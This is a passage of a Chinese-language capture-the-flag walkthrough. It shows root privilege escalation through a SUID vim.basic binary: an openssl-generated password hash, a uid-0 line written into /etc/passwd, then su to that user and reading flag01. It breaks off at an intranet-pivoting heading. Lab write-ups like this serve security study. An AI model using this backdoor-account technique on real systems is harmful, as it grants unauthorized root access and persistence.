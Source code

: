 发现vim.basic有SUID权限，可以利用它添加 root 用户

构造一个具有root权限的用户

```
[root@iZ2ze8k64rnm1tt06g6ni2Z ~]# openssl passwd -1 -salt test 1234    //生成密码	
$1$test$So8QlDklBBy90T3QcEYWU/
test:$1$test$So8QlDklBBy90T3QcEYWU/:0:0:/root:/bin/bash
```

### flag01：Vim.basic 提权读取flag

随后使用vim.basic写入/etc/passwd

```
/usr/bin/vim.basic /etc/passwd
```

随后切换test用户

```
app@web01:~$ su test
su test
Password: 1234

whoami
root

cd root
ls
flag
cat flag
cat: flag: Is a directory
ll
bash: line 11: ll: command not found
cd flag
ls
flag01.txt
cat flag01.txt
O))     O))                              O))             O))
O))     O))                          O)  O))             O))
O))     O))   O))     O)))) O) O))     O)O) O)   O))     O))
O)))))) O)) O))  O)) O))    O)  O)) O))  O))   O))  O))  O))
O))     O))O))    O))  O))) O)   O))O))  O))  O))   O))  O))
O))     O)) O))  O))     O))O)) O)) O))  O))  O))   O))  O))
O))     O))   O))    O)) O))O))     O))   O))   O)) O)))O)))
                            O))                           
flag01: flag{3d1da0b2-f052-414e-a123-b7a4ed48552a}

```

## 内网渗透

### 代理搭建
